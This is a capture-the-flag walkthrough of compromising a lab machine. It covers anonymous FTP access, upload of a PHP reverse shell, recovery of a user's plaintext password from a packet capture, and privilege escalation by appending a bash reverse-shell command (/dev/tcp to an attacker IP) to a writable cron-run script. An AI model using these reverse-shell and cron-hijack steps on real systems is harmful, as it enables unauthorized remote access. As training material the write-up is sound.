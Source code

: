 ```yaml
---
sticker: emoji//1f336-fe0f
---
```

# ENUMERATION



## OPEN PORTS

Let's begin with a simple Nmap scan:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023164431.png)

```ad-hint
OPEN PORTS:

- 21: ftp (Anonymous login allowed)
- 22: ssh
- 80: http
```

Let's log in FTP since anonymous login is allowed:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023164907.png)

We found this files, let's download them all using `mget *`

Let's read `notice.txt`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023165101.png)

Seems like `maya` could be an user for ssh

If we try to use `steghide` in the important.jpg we get this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023165247.png)
Let's try to change the hex for the file into a jpg, and try again:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023165422.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023165648.png)

Couldn't get anything useful, so, let's start with the web fuzzing and enumeration
## FUZZING

Using FFUF to fuzz the website, I found this directory:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023164544.png)

Let's visit the website and try to enumerate it further: 

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023165753.png)
## SOURCE CODE

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023165822.png)
# EXPLOITATION


## FILES DIRECTORY

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023165853.png)

Seems like we could exploit the ftp to upload files into the server, we could try uploading a [[MOST COMMON REVERSE SHELLS|reverse shell]] for this CTF, I uploaded a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):



![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023174700.png)

Nice, let's send the reverse shell and get our connection:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023174758.png)

Once I established the connection, I stabilized my shell using the [[STABLE SHELL|stable shell tricks]]

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023174947.png)

Nice, now we have an stable shell, let's get our flags and escalate privileges.


# PRIVILEGE ESCALATION

Before trying to escalate privileges, we are able to read the recipe.txt file and it says this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023175629.png)

So, we got our first answer, let's try to read the home directory:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023175658.png)


If we try to `cd` to Lennie home, permission is denied, but now, we can try other escalation vectors, for example, if we use linpeas, we are able to see we have 2 suspicious folder in root:

```ad-note
[+] Unexpected folders in root 
/incidents /data
```

Let's read the contents of both files:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023180403.png)

We got a `.pcapng` file, we can analyze it with wireshark, let's copy it to `/var/www/html/files/ftp` and download it to our machine:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023180944.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023180951.png)


Now that we filtered tcp in wireshark, we can follow the tcp stream for the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023182634.png)

If we follow the stream, we are able to see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023182732.png)

Seems like we got the password for Lennie:

```ad-important
`lennie:c4ntg3t3n0ughsp1c3`
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023182848.png)
We are in, now, we are able to read the `user.txt`

If we try `sudo -l`, lennie may not run sudo on startup, let's use the other techniques from [[BASIC PRIVESC IN LINUX|linux privesc]]

After trying all that, nothing useful came, but, in the lennie home, we found a useful directory called `/scripts` 
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023183424.png)
I found a planner.sh and startup_list.txt, second file did not have anything useful, but first file, had this:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023183735.png)

A `/etc/print.sh` file, we can write on it, let's write a reverse shell on it:

```ad-important
shell: `echo "/bin/bash -i >& /dev/tcp/10.6.34.159/1234 0>&1" >> /etc/print.sh`
```

Since planner.sh runs every minute, we only need to wait a minute with out netcat set on to get the shell:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023184044.png)

And just like that, we finished the machine:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241023184153.png)

Gg!

